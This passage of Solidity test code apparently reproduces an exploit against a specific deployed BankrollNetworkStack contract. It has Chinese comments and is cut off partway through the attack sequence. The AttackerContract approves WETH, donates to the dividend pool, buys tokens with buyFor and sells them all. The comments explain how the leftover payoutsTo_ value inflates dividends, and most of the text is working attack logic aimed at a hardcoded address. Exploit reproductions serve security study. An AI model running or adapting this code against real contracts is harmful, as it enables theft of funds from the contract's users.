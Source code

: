 ```so
}

interface IBankrollNetworkStack {
    function donatePool(uint amount) external returns (uint256);
    function buyFor(address _customerAddress, uint buy_amount) external returns (uint256);
    function withdraw() external;
    function sell(uint256 _amountOfTokens) external;
    function myTokens() external view returns (uint256);
    function transfer(address to, uint256 amount) external returns (bool);
    function myDividends() external view returns (uint256);
}

contract AttackerContract is Test {
    // 受害者合约地址
    address private constant VICTIM_CONTRACT = 0xeF6676536a1d98942d149f52708770e11Db47BcE;
    // WETH代币地址
    address private constant TOKEN = 0x2170Ed0880ac9A755fd29B2688956BD959F933F8;
    address public ATTACKER_EOA;

    constructor(address _attackerEOA) {
        ATTACKER_EOA = _attackerEOA;
    }

    // 接收ETH函数 
    receive() external payable {}

    // 攻击函数 - 直接执行攻击逻辑
    function attack() external {
        require(msg.sender == ATTACKER_EOA, "Only attacker EOA can call this function");
        _executeAttack();
    }

    // 实际攻击执行函数
    function _executeAttack() internal {
        // 打印初始Token余额
        uint256 contractBalance = IERC20(TOKEN).balanceOf(address(this));
        console.log(unicode"合约初始Token余额:", contractBalance / 1e18);

        // 1. 先授权受害合约可以使用Token
        IERC20(TOKEN).approve(VICTIM_CONTRACT, type(uint256).max);

        // 2. 调用donatePool函数,存入资金到分红池
        uint256 donateAmount = 25777277604446591821939; // 存入1万
        IBankrollNetworkStack(VICTIM_CONTRACT).donatePool(donateAmount);
        // 捐赠后，分红池增加：25,777.27 Token
        // 此时合约总 Token 余额：2.644e22 (26,440 Token)
        
        // 3. 使用buyFor购买代币
        uint256 buyAmount = 667805119286181135283; // 购买5000 worth的代币
        IBankrollNetworkStack(VICTIM_CONTRACT).buyFor(address(this), buyAmount);
        // 攻击者获得合约代币：601.024607357563021755 (约 601.02)
        // tokenBalanceLedger_[attacker] = 601.024607357563021755
        // payoutsTo_[attacker] = (int256)(profitPerShare_ * 601.024607357563021755)

        // 4. 获取当前合约持有的代币数量
        uint256 myTokens = IBankrollNetworkStack(VICTIM_CONTRACT).myTokens();
        console.log(unicode"获得的代币数量:", myTokens);
        
        // 5. 出售所有代币获取收益
        IBankrollNetworkStack(VICTIM_CONTRACT).sell(myTokens);
        // 出售后代币余额变为 0：
        // tokenBalanceLedger_[attacker] = 0
        // 但 payoutsTo_[attacker]保持不变（正值）
```